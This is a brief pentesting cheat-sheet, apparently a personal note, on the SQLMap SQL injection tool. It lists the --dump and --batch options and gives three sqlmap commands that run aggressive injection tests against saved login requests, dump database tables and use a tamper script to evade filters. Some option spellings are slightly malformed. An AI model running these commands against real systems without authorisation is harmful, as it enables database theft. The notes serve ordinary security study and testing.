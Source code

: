 ```yaml
---
tags:
  - Enumeration
  - TCP
---
```

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications.

[GitHub - sqlmapproject/sqlmap: Automatic SQL injection and database takeover tool](https://github.com/sqlmapproject/sqlmap/tree/master)
# Options

- `—-dump`: Dump DBMS database table entries
- `—-batch`: Never ask for user input, use the default behaviour

# Example

How to provide more information and strings which indicate failure.
Provides the HTTP query to be used.
```
sqlmap -level=5 -risk=3 -p username --string="Wrong identification" --dump --batch -r login-request.txt
```

```
sqlmap -r login.req --level 5 --risk 3 --batch
```
```
sqlmap -r r.txt --level 5 --risk 3 --technique=BEUSTQ --random-agent -p "limit" --tamper="space2comment.py" --flush-session --batch
```